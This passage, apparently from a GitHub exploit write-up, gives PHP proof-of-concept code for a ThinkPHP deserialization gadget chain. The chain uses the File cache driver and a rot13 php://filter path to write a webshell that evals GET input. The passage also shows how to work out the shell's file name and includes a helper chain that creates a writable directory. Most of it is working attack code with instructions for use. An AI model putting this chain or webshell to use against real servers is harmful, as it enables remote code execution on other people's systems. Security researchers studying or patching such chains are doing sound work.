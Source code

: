 ```php
    protected $handler = null;
    function __construct(){
        $this->handler = new File();//Purpose call File->set()
    }
}
namespace think\cache\driver;#File
class File{
    protected $options = [];
    protected $tag;
    function __construct(){
        $this->options = [
        'expire' =0,
        'cache_subdir' =false,
        'prefix' ='',
        'path' ='php://filter/write=string.rot13/resource=./<?cuc cucvasb();riny($_TRG[q1ab])?>',
        'data_compress' =false,
        ];
        $this->tag = true;
    }
}

namespace think\model;
use think\Model;
class Pivot extends Model{


}
use think\process\pipes\Windows;
echo urlencode(serialize(new Windows()));
```
- Generate file name rules

```bash
md5('tag_'.md5($this->tag))
Right now:
md5('tag_c4ca4238a0b923820dcc509a6f75849b')
=>3b58a9545013e88c7186db11bb158c44
=>
<?cuc cucvasb();riny($_TRG[pzq]);?+ 3b58a9545013e88c7186db11bb158c44
Final file name:
<?cuc cucvasb();riny($_TRG[pzq]);?>3b58a9545013e88c7186db11bb158c44.php
```
- When exploiting vulnerabilities, you need to pay attention to the directory read and write permissions. You can first control `options['path'] = './demo/'`, and use the framework to create a `755` folder (provided that you have permissions). We can slightly modify the payload to create a directory with `0755` permissions (the `mkdir` function in `think\cache\driver\File:getCacheKey()` is used here), and then write files to this directory.
- poc create demo directory

```php
<?php
namespace think\process\pipes;
use think\model\Pivot;
class Pipes{

}

class Windows extends Pipes{
private $files = [];

    function __construct(){
        $this->files = [new Pivot()];
    }
}
```